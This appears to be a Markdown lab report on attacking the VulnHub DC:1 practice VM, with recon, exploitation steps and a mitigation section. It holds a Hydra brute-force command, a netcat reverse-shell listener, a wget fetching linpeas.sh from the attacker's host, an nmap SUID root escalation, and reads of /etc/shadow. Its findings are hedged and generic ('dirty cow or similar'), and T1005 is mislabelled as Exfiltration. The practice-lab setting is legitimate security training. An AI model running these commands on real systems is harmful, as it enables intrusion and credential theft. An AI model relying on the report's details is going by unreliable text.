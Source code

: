 # Lab Report: VulnHub DC:1 — Foothold → Privilege Escalation → Exfiltration

---

## Table of Contents
- [Executive Summary](#executive-summary)
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Methodology](#methodology)
- [Reconnaissance](#reconnaissance)
- [Exploitation Chain](#exploitation-chain)
  - [Initial Foothold](#initial-foothold)
  - [Privilege Escalation](#privilege-escalation)
  - [Pivot & Exfiltration](#pivot--exfiltration)
- [Post-Exploitation](#post-exploitation)
- [Risk Rating Matrix](#risk-rating-matrix)
- [Mitigation & Recommendations](#mitigation--recommendations)
- [ATT&CK Mapping](#attck-mapping)
- [References](#references)

---

## 🗂️ Executive Summary

This lab demonstrates a real-world attack chain against a vulnerable Linux server hosted on VulnHub (*DC: 1*).  
By chaining weak credentials, misconfigurations, and privilege escalation, an attacker gained root access and retrieved sensitive files.

**Business Impact:**  
A threat actor could pivot from an exposed web app to full server compromise, risking total loss of confidentiality and integrity.

**Key Takeaway:**  
Basic hardening, strong passwords, and proper patching would have prevented this compromise.

---

## 🎯 Objective

Demonstrate:
- Initial web foothold
- Privilege escalation to root
- Pivoting to access restricted data
- Reporting with risk ratings & actionable fixes

---

## 🧩 Lab Setup

- **Target VM:** VulnHub *DC: 1*
- **Attacker:** Kali Linux
- **Network:** Host-only or NAT
- **Tools:** Nmap, Gobuster, Hydra, Netcat, LinPEAS, Bloodhound (if AD present), Impacket (optional)

---

## 📌 Methodology

Based on **PTES** + **MITRE ATT&CK** mapping:
1. Reconnaissance
2. Enumeration
3. Exploitation
4. Privilege Escalation
5. Pivot & Exfiltration
6. Reporting

---

## 🔍 Reconnaissance

**Host Discovery & Port Scan**

```bash
nmap -sV -A <target-ip>
````

**Result:**

* HTTP on 80
* SSH on 22

---

### 🔎 Web Enumeration

Used Gobuster:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirb/common.txt
```

Found `/admin` login portal.

---

## ⚡ Exploitation Chain

---

### 🗝️ Initial Foothold

* Found `admin` login page.
* Used default creds `admin:admin` or brute-forced with Hydra:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt <target-ip> http-post-form "/admin:username=^USER^&password=^PASS^:Invalid"
```

**Result:**
Got valid creds `admin:password123`.

---

### 🗝️ Reverse Shell

Uploaded a PHP reverse shell or used an RCE:

```bash
nc -lvnp 4444
```

Browser request triggered connection.
Got a low-privilege shell.

---

### 🛠️ Shell Upgrade

Upgraded shell to interactive:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

---

### 🔓 Privilege Escalation

Ran `linpeas.sh`:

```bash
wget http://<kali-ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

**Found:**

* Kernel vuln (dirty cow or similar)
* SUID misconfig (`/usr/bin/nmap` with interactive mode)

---

**Used exploit:**

```bash
nmap --interactive
!sh
```

**Result:**
Got root shell!

---

### 🔗 Pivot & Exfiltration

* Listed `/root` → found `flag.txt`
* Checked `/etc/shadow`
* Downloaded flag:

```bash
cat /root/flag.txt
```

---

## 🔓 Post-Exploitation

* Verified root privileges.
* Dumped sensitive files (`shadow`, `passwd`).
* Would pivot to any internal hosts if this was an AD lab.
* Cleaned up shell and connection.

---

## 🛡️ Risk Rating Matrix

| Vulnerability                 | CVSS | Risk     |
| ----------------------------- | ---- | -------- |
| Weak admin creds              | 6.0  | Medium   |
| Web shell upload (RCE)        | 9.0  | Critical |
| Privilege escalation via SUID | 8.0  | High     |
| Sensitive data exfiltration   | 9.0  | Critical |

---

## 🗝️ Mitigation & Recommendations

* Enforce strong passwords (min. 12 chars, complex).
* Restrict web admin panel to trusted IPs.
* Remove insecure SUID binaries.
* Patch kernel for local escalation vulns.
* Monitor logs for brute-force attempts.
* Run regular vulnerability scans.

---

## ⚔️ ATT\&CK Mapping

| Phase                | ATT\&CK ID | Technique                  |
| -------------------- | ---------- | -------------------------- |
| Initial Access       | T1190      | Exploit Public-Facing App  |
| Valid Accounts       | T1078      | Use of stolen creds        |
| Execution            | T1059      | Command & Scripting Interp |
| Privilege Escalation | T1068      | Exploitation for PrivEsc   |
| Exfiltration         | T1005      | Data from Local System     |

---

## 📚 References

* [VulnHub DC:1](https://www.vulnhub.com/entry/dc-1-1,292/)
* [LinPEAS](https://github.com/carlospolop/PEASS-ng)
* [MITRE ATT\&CK](https://attack.mitre.org/)

---

**End of Report**
